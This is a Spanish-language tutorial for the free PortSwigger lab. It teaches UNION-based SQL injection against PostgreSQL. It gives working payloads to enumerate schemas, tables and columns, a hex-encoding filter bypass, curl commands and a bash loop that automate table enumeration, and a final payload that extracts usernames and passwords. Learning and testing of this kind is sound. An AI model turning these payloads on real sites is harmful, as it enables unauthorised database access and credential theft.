




---
## Laboratorio Portswigger


Para ilustrar con ejemplos realistas vamos a seguir el laboratorio gratuito de [Portswigger](https://portswigger.net/web-security/all-labs)

Todas las pruebas se realizaron en la URL:

```ini
https://web-security-academy.net/filter?category=Product
```


---

## Confirmación de la vulnerabilidad


**Acción:**

Comprobamos que el parámetro `port_code` es vulnerable inyectando un UNION SELECT.

```sql
' UNION SELECT 1,2-- 
```

**Explicación:**

Si la inyección tiene éxito, la página mostrará los valores `1` y `2` en la tabla. Esto confirma que:

- La aplicación concatena directamente el valor en una consulta SQL.

- El número de columnas es 2.

- Podemos continuar con otras inyecciones más complejas.


---

## Obtener versión de MySQL


```sql
' UNION SELECT 1, version()-- 
```




---

## Listar todas las bases de datos


```sql
' UNION SELECT datname, NULL FROM pg_database-- 
```

Al ejecutar esta query, en el laboratorio de ejemplo de Portswigger vemos algo así:




### Listar schemas en la DB actual

PostgreSQL diferencia _bases de datos_ (cada una es independiente dentro del servidor) y _schemas_ (namespaces dentro de una base de datos)

```bash
' UNION SELECT NULL,schema_name FROM information_schema.schemata-- 
```




---

## Limit

PostgreSQL**no** soporta `LIMIT 0,1`. Debe usarse: `LIMIT <count> OFFSET <offset>` → `LIMIT 1 OFFSET 0`

**Nota:** para no tener que iterar por cada post que haya en la página podemos empezar la query SQLi de la URL a partir del `=` y no desde su valor `=Product`

```bash
' UNION SELECT NULL, schema_name FROM information_schema.schemata LIMIT 1 OFFSET 0-- 
```


---

## group_concat


- En **PostgreSQL** **no existe `GROUP_CONCAT`**. La alternativa equivalente es `string_agg(col, separador)` (por ejemplo `string_agg(schema_name, ',')`). También existen `array_agg` (devuelve un array) y `concat_ws` / `concat` para concatenar valores

```shell
' UNION SELECT NULL, (SELECT string_agg(schema_name, ',') FROM information_schema.schemata)-- 

```


- `CONCAT()` toma columnas de **una fila** y las concatena. Si el objetivo es **unir varias filas** en una sola salida (ej. todos los schemas), `GROUP_CONCAT`/`string_agg` agregan múltiples filas; `CONCAT` no


```shell
' UNION SELECT NULL,concat(schema_name) FROM information_schema.schemata-- 
```


---

## curl (PostgreSQL)

En esta sección mostramos cómo adaptar los ejemplos de `curl` que usamos para MySQL a **PostgreSQL**, manteniendo la misma estructura pero corrigiendo la sintaxis (especialmente `LIMIT`). 

### 1. Diferencia clave

En MySQL solemos usar `LIMIT <offset>,<count>` (por ejemplo `LIMIT 1,1`). En PostgreSQL la sintaxis correcta es:

```sql
LIMIT <count> OFFSET <offset>
```

Por eso debemos transformar payloads como `LIMIT 1,1` → `LIMIT 1 OFFSET 0`.


### 2. Un `curl` simple (obtener una fila concreta)

Si queremos pedir la primera tabla (`offset 0`) usando una inyección `UNION` que devuelve 2 columnas (por ejemplo `NULL, table_name`), el `curl` sería:

```bash
curl -s -X GET "https://DOMINIO/filter?category=' union select NULL,table_name from information_schema.tables limit 1 offset 0-- "
```

Para la segunda fila (`offset 1`):

```bash
curl -s -X GET "https://DOMINIO/filter?category=' union select NULL,table_name from information_schema.tables limit 1 offset 1-- "
```

> Nota: envolvemos la URL entre comillas para evitar problemas con caracteres especiales en la shell.


### 3. Procesar la salida (filtrar la celda HTML)

Si la página devuelve la tabla dentro de `<td>` y queremos extraer sólo el texto, combinamos `grep` y `html2text` (igual que en MySQL):

```bash
curl -s -X GET "https://DOMINIO/filter?category=' union select NULL,table_name from information_schema.tables limit 1 offset 0-- " | grep "<td>" | html2text
```

Resultado esperado (ejemplo):

```
pg_statistic
```


### 4. Bucle para enumerar tablas (Postgres)

Recordemos que en PostgreSQL `OFFSET` empieza en `0`. Por tanto el bucle debe recorrer `seq 0 N`:

```bash
for i in $(seq 0 99); do q="Gifts' union select NULL,table_name from information_schema.tables limit 1 offset $i-- -"; res=$(curl -s --get --data-urlencode "category=$q" "https://web-security-academy.net/filter" | grep '<td>' | html2text); echo "[+] Para el nº $i: $res"; done
```

Si la shell o el entorno interpreta mal la URL, una alternativa es usar `--get --data-urlencode` de `curl` para codificar automáticamente la query:

```bash
for i in $(seq 0 99); do
  q="Gifts' union select NULL,table_name from information_schema.tables limit 1 offset $i-- -"
  res=$(curl -s --get --data-urlencode "category=$q" "https://web-security-academy.net/filter" | grep '<td>' | html2text)
  echo "[+] Para el nº $i: $res"
done
```

Esto evita problemas con espacios, comillas o caracteres especiales.


### 5. Resultado de ejemplo

Ejemplo de salida esperada si enumeramos varias entradas:

```
[+] Para el nº 0: pg_extension
[+] Para el nº 1: pg_class
[+] Para el nº 2: pg_range
[+] Para el nº 3: pg_stat_gssapi
[+] Para el nº 4: pg_indexes
[+] Para el nº 5: pg_policies
...
```

Si filtramos por `table_schema='public'` veremos nombres de tablas de la aplicación en lugar de las internas.


---

## Listar tablas de una base de datos


### 1) Payload básico (si la columna izquierda es numérica)

```bash
' UNION SELECT 1, table_name FROM information_schema.tables WHERE table_schema='public'-- 
```

### 2) Payload seguro si no sabemos el tipo de la primera columna (usar `NULL` para rellenar)

```bash
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema='public' -- 
```

### 3) Iterar (ej.: segunda fila, offset 1)

```bash
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema='public' LIMIT 1 OFFSET 1-- -
```

### 4) Concatenar todas las tablas del esquema (equivalente a `GROUP_CONCAT`)

```bash
' UNION SELECT NULL, (SELECT string_agg(table_name, ',') FROM information_schema.tables WHERE table_schema='public')-- 
```


---
## Cadena hexadecimal


En ocasiones, por seguridad de la página, puede ser que no podamos introducir ciertas cadenas como `'academy_labs`. Para estos casos podemos introducir la cadena en hexadecimal de la siguiente forma

```shell
echo -n "public" | xxd -p
```

Resultado:

```shell
7075626c6963
```

PostgreSQL no reconoce `0x` como literal hexadecimal para cadenas. En PostgreSQL hay que:

- convertir la cadena hex a `bytea` con `decode('hexstring','hex')`, y luego

- convertir el `bytea` a texto con `convert_from(..., 'UTF8')` (si la cadena original está en UTF‑8)

```shell
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema = convert_from(decode('7075626c6963','hex'),'UTF8')-- -
```




---

## Listar columnas de una tabla


```sql
' UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name='nombre_tabla'-- -
```


---
## Extraer usuarios de una tabla `users`


```sql
' UNION SELECT username, password FROM users-- -
```